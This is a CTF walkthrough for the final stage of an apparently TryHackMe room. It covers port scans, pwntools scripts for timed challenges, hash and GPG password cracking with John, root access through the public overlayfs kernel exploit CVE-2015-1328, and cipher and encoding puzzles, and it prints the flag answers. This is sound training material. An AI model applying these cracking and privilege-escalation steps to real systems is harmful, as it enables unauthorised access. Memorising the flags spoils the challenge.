

# [Task 7] Final stage

The end has finally come and you deserve something better by reaching this far. Let me give you an applause

I would like to say a million thanks for all the time you have to spend and the brain cell you have lost. This is it, the **last 20 flags**.

This would be the longest CTF challenge in the THM server (or perhaps).

~~What? You are asking where is the deploy button? Silly me, you can't find the button within this page. It is somehow hidden inside another page. (Don't brute-force the page, this is unethical).~~ **Well, I can't create the hidden room in THM, so just deploy the machine on the next two tasks.**

# #1 - Flag 81

*Hint: Not bad, you finally found my first secret hideout. Here, take this flag 81: vrshl9t5w746fueyl1mw.
Now, deploy the machine and start the challenge. Good luck. (Answer the flag in the CTF 100 room)*

Go to [Task 8] Hidden CTF 100 and click "Deploy".

Flag 81: `vrshl9t5w746fueyl1mw`

We have 2 machines to deploy here, addressing different flags:

**Task 8**

~~~
PORT     STATE SERVICE VERSION
21/tcp   open  ftp     vsftpd 2.3.5
22/tcp   open  ssh     OpenSSH 5.9p1 Debian 5ubuntu1.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   1024 26:70:49:8b:db:20:40:2a:e9:d8:81:e1:ff:7b:c6:17 (DSA)
|   2048 c3:b1:05:ef:8d:34:47:79:55:9d:a5:7b:fa:d0:82:ec (RSA)
|_  256 ae:cf:88:d3:de:fc:95:22:8f:c5:71:6e:08:ef:96:72 (ECDSA)
80/tcp   open  http    Apache httpd 2.2.22 ((Ubuntu))
|_http-server-header: Apache/2.2.22 (Ubuntu)
|_http-title: Site doesn't have a title (text/html).
3338/tcp open  anet-b?
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     Decode all these base64 to reveal the flag and something extra
|     ZW1hbmF0aXZlbHk=
|     Wrong
|   DNSVersionBindReqTCP: 
|     Decode all these base64 to reveal the flag and something extra
|     S3Vt
|     Wrong
|   GenericLines: 
|     Decode all these base64 to reveal the flag and something extra
|     aWNodGh5b2dyYXBoeQ==
|     Wrong
|   GetRequest: 
|     Decode all these base64 to reveal the flag and something extra
|     Y3J1c2lsZQ==
|     Wrong
|   HTTPOptions: 
|     Decode all these base64 to reveal the flag and something extra
|     cHJpemVz
|     Wrong
|   Help: 
|     Decode all these base64 to reveal the flag and something extra
|     c3ViZ3JhbnVsYXJpdHk=
|     Wrong
|   Kerberos: 
|     Decode all these base64 to reveal the flag and something extra
|     b2Js
|     Wrong
|   NULL: 
|     Decode all these base64 to reveal the flag and something extra
|     aWNodGh5b2dyYXBoeQ==
|   RPCCheck: 
|     Decode all these base64 to reveal the flag and something extra
|     dW5jb21iaW5pbmduZXNz
|     Wrong
|   RTSPRequest: 
|     Decode all these base64 to reveal the flag and something extra
|     d2FuZ2xlcnM=
|     Wrong
|   SMBProgNeg: 
|     Decode all these base64 to reveal the flag and something extra
|     YnJvYWNo
|     Wrong
|   SSLSessionReq: 
|     Decode all these base64 to reveal the flag and something extra
|     c2xpcHBlZA==
|     Wrong
|   TLSSessionReq: 
|     Decode all these base64 to reveal the flag and something extra
|     Y29ybmllcg==
|     Wrong
|   TerminalServerCookie: 
|     Decode all these base64 to reveal the flag and something extra
|     cmV3ZWxkcw==
|     Wrong
|   X11Probe: 
|     Decode all these base64 to reveal the flag and something extra
|     VGV1dGhpcw==
|_    Wrong
3404/tcp open  unknown
| fingerprint-strings: 
|   DNSStatusRequestTCP: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     minus 67
|     Wrong number
|   DNSVersionBindReqTCP: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     minus 83
|     Wrong number
|   GenericLines: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     multiply 1
|     Wrong number
|   GetRequest, Kerberos: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     minus 89
|     Wrong number
|   HTTPOptions: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     multiply 58
|     Wrong number
|   Help: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     minus 61
|     Wrong number
|   NULL: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     minus 89
|   RPCCheck, RTSPRequest, SSLSessionReq: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     Wrong number
|   TLSSessionReq: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     minus 88
|     Wrong number
|   TerminalServerCookie: 
|     Perform arithmetic, connection close if failed to solve within 3 seconds
|     minus 25
|_    Wrong number
~~~

**Task 9**

~~~
21/tcp   open  ftp     vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst: 
|   STAT: 
| FTP server status:
|      Connected to ::ffff:10.11.9.81
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 1
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
9999/tcp open  abyss?
| fingerprint-strings: 
|   FourOhFourRequest, GenericLines, GetRequest, HTTPOptions, JavaRMI: 
|     ***************************
|     Port knocking input *
|     ***************************
|     user, please enter the port sequence
|     format is (can be more than 4): PORT PORT PORT PORT
|     Wrong sequence
|     Bye!
|   NULL: 
|     ***************************
|     Port knocking input *
|     ***************************
|     user, please enter the port sequence
|_    format is (can be more than 4): PORT PORT PORT PORT
~~~

# #2 - Flag 82

When you connect with `10.10.103.162:3338`, you are asked to solve a base64 challenge. If the result is not provided within 3 seconds, the connection is closed. Once the correct result is provided, another challenge is asked and so on... until the challenge is the flag.

I wrote the following python script to automatize the process and get the flag, as well as the FTP user:

```python
#!/usr/bin/env python3

from pwn import *
from base64 import b64decode

host, port = '10.10.212.86', 3338
context.log_level = 'warn'

s = remote(host, port)
s.recvline()

while True:

	b64enc = s.recvline()
	b64enc = b64enc.decode('utf-8')

	if 'flag' in b64enc:
		print(b64enc)
		# get the FTP user
		print(s.recvline())
		print(s.recvline())
		break

	b64dec = b64decode(b64enc)
	s.sendline(b64dec)

s.close()
```

Let's run the script:

~~~
$ python base64_challenge.py 
flag 82: arvqv50ejexyzyi3j3xp

b'Congratz, here something for you\n'
b'FTP user: get_laid\n'
~~~

We now have a FTP user: `get_laid`, as well as the flag.

Flag 82: `arvqv50ejexyzyi3j3xp`

# #3 - Flag 83

When you connect with `10.10.103.162:3404`, you are prompted for a math computation involving addition, substraction or multiplication. If the result is not provided within 3 seconds, the connection is closed. Once the correct result is provided, another computation is required and so on... until the challenge is the flag.

I wrote the following python script to automatize the process and get the flag:

```python
#!/usr/bin/env python3

from pwn import *
import re

host, port = '10.10.212.86', 3404
context.log_level = 'warn'

s = remote(host, port)
s.recvline()

while True:

	op = s.recvline()
	op = op.decode('utf-8')
	
	if 'flag' in op:
		print(op)
		print(s.recvline())
		print(s.recvline())
		break

	reop = re.search('^(\d+)\s(minus|add|multiply)\s(\d+)\\n$', op, re.IGNORECASE)
	n1 = int(reop.group(1))
	sgn = reop.group(2)
	n2 = int(reop.group(3))
    
	if sgn == 'add':
		res = n1 + n2
	elif sgn == 'minus':
		res = n1 - n2
	else:
		res = n1 * n2

	s.sendline(str(res))

s.close()
```

Let's run it. After some seconds, we have the flag and a SSH user (`hidden`):

~~~
$ python math_challenge.py 
flag 83: xte0xvb4b9uygmhji7o3

b'Congratz, here something for you\n'
b'SSH user: hidden\n'
~~~

# #4 - Flag 84

*Hint: John is ready for action.*

At this stage, we have a FTP user (`get_laid`) and a SSH user (`hidden`). We are provided with a hint that refers to John the Ripper, used to crack hashes. But we don't have hashes.

I tried to brute force FTP and SSH but without success and decided to try the web service. I was able to continue until *flag86* where I have been provided with the SSH password. I'm not sure if this was the correct way of solving this but I did it :)

In a nutshell (details are explained in the next flags):

~~~
flag 84: qwpcsa9xh4hasczq1c1r
~~~

# #5 - Flag 85

*Hint: That is not a base64. A hash, perhaps.*

Let's try to do something from the web server:

~~~
$ /data/src/dirsearch/dirsearch.py -u 10.10.103.162 -E -w /data/src/wordlists/directory-list-2.3-medium.txt 

 _|. _ _  _  _  _ _|_    v0.3.9
(_||| _) (/_(_|| (_| )

Extensions: php, asp, aspx, jsp, js, html, do, action | HTTP method: get | Threads: 10 | Wordlist size: 220529

Error Log: /data/src/dirsearch/logs/errors-20-05-26_18-11-10.log

Target: 10.10.103.162

[18:11:10] Starting: 
[18:11:10] 200 -  177B  - /index
[18:11:10] 200 -  177B  - /
[18:11:13] 403 -  283B  - /.hta
[18:12:31] 301 -  311B  - /hidden  ->  http://10.10.103.162/hidden/
[18:21:04] 403 -  292B  - /server-status

Task Completed
~~~

dirsearch has found a `/hidden` directory:

~~~
$ curl -s http://10.10.103.162/hidden/

<p>Username and password please</p>
<form action="" method="POST">
<p>Username:</p>
<input type="text" name="user"/>
<p>Password:</p>
<input type="text" name="pass"/><br>
<input type="submit" name="submit"/> 
</form>
<!-- ac0d0a292a3725daf32d58083e8e194c:8dbdda48fb8748d6746f1965824e966a -->
<!-- this is a base64 -->
~~~

Looking for the hashes confirms that they are MD5 hashes:

Field | Hash | Algo | Decrypted
---|---|---|---
user | ac0d0a292a3725daf32d58083e8e194c | md5 | lay
pass | 8dbdda48fb8748d6746f1965824e966a | md5 | simple

Let's authenticate with these credentials:

~~~
$ curl -d "user=lay&pass=simple&submit=submit" -X POST http://10.10.103.162/hidden/

<p>Username and password please</p>
<form action="" method="POST">
<p>Username:</p>
<input type="text" name="user"/>
<p>Password:</p>
<input type="text" name="pass"/><br>
<input type="submit" name="submit"/> 
</form>
MD5 hash easy peasy. The flag85: a0ml0wkiis5c9291e5cr. Also, FTP pass: zq9vpxdxzj3i0ml2i9mz<!-- ac0d0a292a3725daf32d58083e8e194c:8dbdda48fb8748d6746f1965824e966a -->
<!-- this is a base64 -->
~~~

We are provided with flag85 and a FTP password: zq9vpxdxzj3i0ml2i9mz.

Flag85: `a0ml0wkiis5c9291e5cr`

# #6 - Flag 86

We now also have the FTP password (`zq9vpxdxzj3i0ml2i9mz`) of the FTP user (`get_laid`) previously found. Let's connect and get the file:

~~~
$ ftp 10.10.212.86
Connected to 10.10.212.86 (10.10.212.86).
220 (vsFTPd 2.3.5)
Name (10.10.212.86:unknown): get_laid
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls -la
227 Entering Passive Mode (10,10,212,86,202,91).
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 05  2019 .
drwxr-xr-x    2 0        0            4096 Oct 05  2019 ..
-rw-r--r--    1 1000     1000          105 Oct 05  2019 secret.txt.gpg
226 Directory send OK.
ftp> get secret.txt.gpg
~~~

The secret file is a GPG symetrically encrypted file, which means we should be able to crack it.

~~~
$ file secret.txt.gpg 
secret.txt.gpg: GPG symmetrically encrypted data (CAST5 cipher)
~~~

Let's use John:

~~~
$ /data/src/john/run/gpg2john secret.txt.gpg > gpg.hash
$ /data/src/john/run/john --wordlist=/data/src/wordlists/rockyou.txt gpg.hash
Note: This format may emit false positives, so it will keep trying even after finding a
possible candidate.
Using default input encoding: UTF-8
Loaded 1 password hash (gpg, OpenPGP / GnuPG Secret Key [32/64])
Cost 1 (s2k-count) is 65536 for all loaded hashes
Cost 2 (hash algorithm [1:MD5 2:SHA1 3:RIPEMD160 8:SHA256 9:SHA384 10:SHA512 11:SHA224]) is 2 for all loaded hashes
Cost 3 (cipher algorithm [1:IDEA 2:3DES 3:CAST5 4:Blowfish 7:AES128 8:AES192 9:AES256 10:Twofish 11:Camellia128 12:Camellia192 13:Camellia256]) is 3 for all loaded hashes
Will run 8 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
yuridia1989      (?)
go               (?)
2g 0:00:08:24 DONE (2020-05-27 21:25) 0.003962g/s 28422p/s 28422c/s 28422C/s                   ..*7¡Vamos!
Session completed. 
~~~

Failed with the 1st password but worked for `go`:

~~~
$ gpg --decrypt secret.txt.gpg 
gpg: directory '/home/unknown/.gnupg' created
gpg: keybox '/home/unknown/.gnupg/pubring.kbx' created
gpg: CAST5 encrypted data
gpg: encrypted with 1 passphrase
flag 84: qwpcsa9xh4hasczq1c1r

SSH pass: this_is_hidden
~~~

At this stage, I was able to get flag 84.

Let's connect with the SSH service and get the flag.

~~~
get_laid@ubuntu:/home/hidden$ cat /home/hidden/flag86.txt 
Time to root the flag. Hint: something is awfully outdated.

flag86: pkjv1a9uaqe1qjd8z81g
~~~

# #7 - Flag 87

We are told in the previous question that "something is awfully outdated" (see the hint just above the flag), and this is true:

~~~
get_laid@ubuntu:/tmp$ uname -a
Linux ubuntu 3.13.0-32-generic #57~precise1-Ubuntu SMP Tue Jul 15 03:50:54 UTC 2014 i686 i686 i386 GNU/Linux
~~~

Searching for privilege escalation vulnerabilities affecting kernel in 3.13.0, I found this (CVE-2015-1328): https://www.exploit-db.com/exploits/37292. Upload the `ofs.c` script to the server, compile it, and run it to get root access.

~~~
get_laid@ubuntu:/tmp$ gcc ofs.c -o ofs
get_laid@ubuntu:/tmp$ ./ofs 
spawning threads
mount #1
mount #2
child threads done
/etc/ld.so.preload created
creating shared library
# whoami
root
root@ubuntu:/tmp# cd /root/
root@ubuntu:/root# ll
total 28
drwx------  3 root root 4096 Dec 13 05:26 ./
drwxr-xr-x 22 root root 4096 Oct  5  2019 ../
-rw-------  1 root root  538 Oct  5  2019 .bash_history
-rw-r--r--  1 root root 3106 Apr 19  2012 .bashrc
drwx------  2 root root 4096 Oct  5  2019 .gnupg/
-rw-r--r--  1 root root  140 Apr 19  2012 .profile
-rw-rw-r--  1 root root   67 Dec 13 05:26 ready.txt
root@ubuntu:/root# cat ready.txt 
Ready for final stage?
ctf100endgame

flag87: 4qo9ik16rx8e8lk71vx3
~~~

# #8 - Flag 88

*Hint: tap tap tap tap*

From here, we have to switch to the second server, available within Task #9.

On the 2nd server, there is a FTP service that allows anonymous connections (BTW, it only allows anonymous connections). Let's get the files:

~~~
$ ftp 10.10.122.45
Connected to 10.10.122.45 (10.10.122.45).
220 (vsFTPd 3.0.3)
Name (10.10.122.45:unknown): anonymous
331 Please specify the password.
Password:
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
ftp> ls
227 Entering Passive Mode (10,10,122,45,47,165).
^C
receive aborted
waiting for remote to finish abort
ftp> passive
Passive mode off.
ftp> ls -la
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxr-xr-x    2 0        0            4096 Oct 06  2019 .
drwxr-xr-x    2 0        0            4096 Oct 06  2019 ..
-rw-r--r--    1 0        0             199 Oct 06  2019 flag88
-rw-r--r--    1 0        0              70 Oct 06  2019 flag89
-rw-r--r--    1 0        0              55 Oct 06  2019 flag90
-rw-r--r--    1 0        0              58 Oct 06  2019 flag91
-rw-r--r--    1 0        0              56 Oct 06  2019 flag92
-rw-r--r--    1 0        0            1512 Oct 06  2019 flag93
-rw-r--r--    1 0        0            4235 Oct 06  2019 flag94
-rw-r--r--    1 0        0            1475 Oct 06  2019 flag95
226 Directory send OK.
ftp> mget *
~~~

The first file is for flag88. It's a morse like code, but only with dots. Besides, we see double spaces every 2 groups.

~~~
$ cat flag88 
... .  ..... ...  ..... .....  ... ..  .... ..  . .....  .... ..  . ...  .... .  ... ....  .... .  .... ....  . ..  . .....  .... ..  ..... ..  ..... ....  . .....  ..... .....  ..... .

port?: 7177
~~~

Decode Tap code with https://www.dcode.fr/chiffre-frappe-tap. I first tried with the following alphabet:

~~~
ABCDE
FGHIJ
LMNOP
QRSTU
VWXYZ
~~~

which resulted in the following flag:

~~~
LXZMRERCQOQTBERWYEZV
~~~

This flag did not work. I tried to switch "C" with "K" in the alphabet:

~~~
ABKDE
FGHIJ
LMNOP
QRSTU
VWXYZ
~~~

which resulted in the following flag, which worked:

~~~
LXZMRERKQOQTBERWYEZV
~~~

We are also provided with a port (`7177`), probably part of the port knocking sequence. Let's keep it for later.

Flag 88: `LXZMRERKQOQTBERWYEZV`

# #9 - Flag 89

*Hint: German ADFGVX*

Use https://cryptii.com/pipes/adfgvx-cipher to decrypt the ADFGVX cipher with the key `end`.

~~~
$ cat flag89 
dfxxf afada fgfdx agxdg xagdg daxda dggag fffad

key:end

port?: 7994
~~~

We are provided with a port (`7994`), probably part of the port knocking sequence. Let's keep it for later.

Flag 89: `mmia1m1ottstckniqdhn`

# #10 - Flag 90

*Hint: What a fair cipher*

~~~
$ cat flag90 
EYTGZAZDIYLZHIOLAGUMQZ

key: Gravity Falls
port?: 7885
~~~

We are provided with a port (`7885`), probably part of the port knocking sequence. Let's keep it for later.

I was not able to crack this flag :( Any help would be appreciated!

~~~
????????????????????
Vigenere: 			YHTLRHBYINAHBROQSNWHQO
Playfair cipher: 	CLGQWIWHRSSXSZEVRIMCZX
Slidefair cipher: 	SKPKAZIUQQGEKFGTGABFOB
Beaufort classic: 	CTHPJTZCSNATZJMKINETKM
Beaufort german:	KPTBHTXIIJWRNZOGIZSRQK
Rozier: 			TPYTOVSIXYELWZTYPBNRFZ
Vernam cipher:		YHTLRHBYINAHBROQSNWHQO
Autoclave:			YHTLRHBYINAHJBVAJZTOIM
????????????????????
~~~

# #11 - Flag 91

*Hint: encode name starts with X*

~~~
$ cat flag91 
dNalVNm+tAHcUPKRYO4FsO1-fPHYrQKooMb-lC168Q4xmR1wu61YtAn6+
~~~

XXDECODE it with http://www.webutils.pl/index.php?idx=xx:

We are provided with a port (`9932`), probably part of the port knocking sequence. Let's keep it for later.

~~~
flag 91: mgdhdxh0km97qm4bpq82
port?: 9932
~~~

# #12 - Flag 92

*Hint: encode name starts with U*

~~~
$ cat flag92 
H9FQA9SDR.B!F;W5U<'1H;3!U=C$T96PR8W Q, IP;W)T/SH@-C8Q,@
~~~

UUDECODE with the `uudecode` command. Specific header and footer are expected.

~~~
$ uudecode 
begin 644 flag92
H9FQA9SDR.B!F;W5U<'1H;3!U=C$T96PR8W Q, IP;W)T/SH@-C8Q,@
`
end
$ cat flag92 
flag92: fouupthm0uv14el2cp10
port?: 6612 
~~~

We are provided with a port (`6612`), probably part of the port knocking sequence. Let's keep it for later.

# #13 - Flag 93

*Hint: encode name starts with P*

~~~
$ cat flag93
#!/usr/bin/perl -w
length q rmdir and print chr ord qw q fcntl q and print chr ord qw q lc q and print chr ord q each ne and print chr ord qw q glob q and print chr ord q q eq and print chr oct oct ord q mkdir m and print chr oct oct ord uc q cmp lc and print chr oct ord uc q chr uc and print chr ord q q eq and print chr ord qw q use q and print chr ord qw q le q and print chr ord q ref or and print chr ord q open no and print chr length q q splice srand getservbyname setnetent ne reset endprotoent foreach scalar rewinddir cos setnetent not else getprotobyname q and print chr ord q local and print chr oct ord uc q oct no and print chr oct ord uc qw q ge q and print chr ord q tie lt and print chr hex ord q q eq and print chr ord qw q uc q and print chr ord q chop uc and print chr ord q eq ge and print chr hex ord q q eq and print chr ord q ge log and print chr oct oct ord uc q cmp lc and print chr ord q my alarm and print chr ord qw q warn q and print chr length q x rename sethostent srand pack pipe setpwent syscall else eq split sleep endservent qw require symlink ne keys ord require x and print chr ord q qr q and print chr length q continue vec and print chr ord q split s and print chr ord q pop and print chr ord q qr q and print chr ord q gt log and print chr oct ord uc q rmdir and print chr oct ord uc q chr uc and print chr ord qq q q and print chr oct oct oct ord q eq ge and print chr oct oct oct ord q eq ne and print chr oct oct ord uc q cmp lc and print chr oct oct ord uc q else 
~~~

Just execute the script:

~~~
$ perl flag93 
flag 93: ulepzo79i2uhq2e3ywzr
port?: 1132
~~~

# #14 - Flag 94

*Hint: encode name starts with A*

~~~
$ cat flag94 
ﾟωﾟﾉ= /｀ｍ´）ﾉ ~┻━┻   //*´∇｀*/ ['_']; o=(ﾟｰﾟ)  =_=3; c=(ﾟΘﾟ) =(ﾟｰﾟ)-(ﾟｰﾟ); (ﾟДﾟ) =(ﾟΘﾟ)= (o^_^o)/ (o^_^o);(ﾟДﾟ)={ﾟΘﾟ: '_' ,ﾟωﾟﾉ : ((ﾟωﾟﾉ==3) +'_') [ﾟΘﾟ] ,ﾟｰﾟﾉ :(ﾟωﾟﾉ+ '_')[o^_^o -(ﾟΘﾟ)] ,ﾟДﾟﾉ:((ﾟｰﾟ==3) +'_')[ﾟｰﾟ] }; (ﾟДﾟ) [ﾟΘﾟ] =((ﾟωﾟﾉ==3) +'_') [c^_^o];(ﾟДﾟ) ['c'] = ((ﾟДﾟ)+'_') [ (ﾟｰﾟ)+(ﾟｰﾟ)-(ﾟΘﾟ) ];(ﾟДﾟ) ['o'] = ((ﾟДﾟ)+'_') [ﾟΘﾟ];(ﾟoﾟ)=(ﾟДﾟ) ['c']+(ﾟДﾟ) ['o']+(ﾟωﾟﾉ +'_')[ﾟΘﾟ]+ ((ﾟωﾟﾉ==3) +'_') [ﾟｰﾟ] + ((ﾟДﾟ) +'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ ((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [(ﾟｰﾟ) - (ﾟΘﾟ)]+(ﾟДﾟ) ['c']+((ﾟДﾟ)+'_') [(ﾟｰﾟ)+(ﾟｰﾟ)]+ (ﾟДﾟ) ['o']+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ];(ﾟДﾟ) ['_'] =(o^_^o) [ﾟoﾟ] [ﾟoﾟ];(ﾟεﾟ)=((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟДﾟ) .ﾟДﾟﾉ+((ﾟДﾟ)+'_') [(ﾟｰﾟ) + (ﾟｰﾟ)]+((ﾟｰﾟ==3) +'_') [o^_^o -ﾟΘﾟ]+((ﾟｰﾟ==3) +'_') [ﾟΘﾟ]+ (ﾟωﾟﾉ +'_') [ﾟΘﾟ]; (ﾟｰﾟ)+=(ﾟΘﾟ); (ﾟДﾟ)[ﾟεﾟ]='\\'; (ﾟДﾟ).ﾟΘﾟﾉ=(ﾟДﾟ+ ﾟｰﾟ)[o^_^o -(ﾟΘﾟ)];(oﾟｰﾟo)=(ﾟωﾟﾉ +'_')[c^_^o];(ﾟДﾟ) [ﾟoﾟ]='\"';(ﾟДﾟ) ['_'] ( (ﾟДﾟ) ['_'] (ﾟεﾟ+/*´∇｀*/(ﾟДﾟ)[ﾟoﾟ]+ (ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((o^_^o) +(o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+(o^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((o^_^o) +(o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((o^_^o) +(o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((o^_^o) +(o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((ﾟｰﾟ) + (o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(o^_^o)+(ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+((ﾟｰﾟ) + (o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+((o^_^o) +(o^_^o))+(ﾟΘﾟ)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(o^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(o^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(o^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+((ﾟｰﾟ) + (o^_^o))+((o^_^o) - (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟｰﾟ)+(c^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (o^_^o))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+(ﾟｰﾟ)+((ﾟｰﾟ) + (ﾟΘﾟ))+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(o^_^o)+(ﾟДﾟ)[ﾟεﾟ]+(ﾟΘﾟ)+((o^_^o) +(o^_^o))+(ﾟｰﾟ)+(ﾟДﾟ)[ﾟoﾟ]) 